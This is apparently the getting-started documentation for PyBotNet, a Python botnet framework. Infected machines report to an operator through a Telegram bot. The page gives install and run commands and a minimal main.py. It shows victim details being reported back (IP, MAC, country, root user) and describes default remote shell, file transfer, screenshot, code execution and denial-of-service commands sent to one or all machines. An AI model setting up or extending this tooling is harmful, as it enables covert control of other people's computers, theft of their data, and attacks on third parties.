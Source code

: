 
### Install PyBotNet

```console
pip3 install pybotnet -U --pre
```

!!! note
    Currently version 2 of the PyBotNet is pre-release

    `--pre`: 
        Include pre-release and development versions. By default, pip only finds stable versions.

    `-U`: make sure to upgrade framework to latest version.

---

#### The simplest PyBotNet file could look like this:


```py title="main.py"

from pybotnet import BotNet, TelegramEngine


telegram_engine = TelegramEngine(token=TELEGRAM_TOKEN, admin_chat_id=ADMIN_CHAT_ID) #(1)

botnet = BotNet(telegram_engine) # (2)
botnet.run()
```

1. create engine: Engines transfer messages between admin and botnet
2. create BotNet instance


!!! note
    * `TELEGRAM_TOKEN`: Get it from the telegram @botfather
    * `ADMIN_CHAT_ID`: Get it from @userinfobot
    * this code include default scripts, like: `shell`, `put_file`, `get_file`, `screenshot`, `who`, ...


#### Run code:

```console 

python3 main.py
```

#### telegram engine

open telegram and send `/who` to your bot; If you have done the steps correctly, you recive message like this:

```
scripts_name:
    echo
    who
    shell
    screenshot
    put_file
    get_file
    runcode
    openurl
    dos
    schedule

mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
local_ip: {'192.168.23.160'}
host_name: {'system_name'}
system_user: root
up_time: 0:00:01
current_route: /
pid: 148352
cpu_count: 8
pybotnet_version: 2.0.8b0
from cache: True
```


you can send `/help` to see help page, or send `/help <script_name>` to recive more help about script.

for example send `/help screenshot`, You will receive:

```
NAME:
screenshot

DESCRIPTION:
get screen shot
    * `[mac-address] /screenshot`
    or
    * `/screenshot`

    example command: 
        * `94945035671481 /screenshot`
        * `/screenshot` 

    return: img or img-download-link
    

script_version: 0.0.1
default_script: True

___________________________
scripts_name: ['echo', 'who', 'shell', 'screenshot', 'put_file', 'get_file', 'runcode', 'openurl', 'dos', 'schedule']
mac_addres: 228362405364
os: Linux
global_ip: 5.160.39.34
country: Iran, Islamic Republic of
bot_name: no_name
use_proxy: False
```

in top of message you see script name, description, syntax and examples.

for run screenshot script you have two choice:

* Run the script on all clients that are listening to Telegram bot (for now we have one!)
* Run script on one system

for run script on all client send `/screenshot` bot if you need get screen shot on specific system you need send `[mac_addres] /screenshot` for our case: `228362405364 /screenshot`

in some case like `/shell` you need to run it just for one system

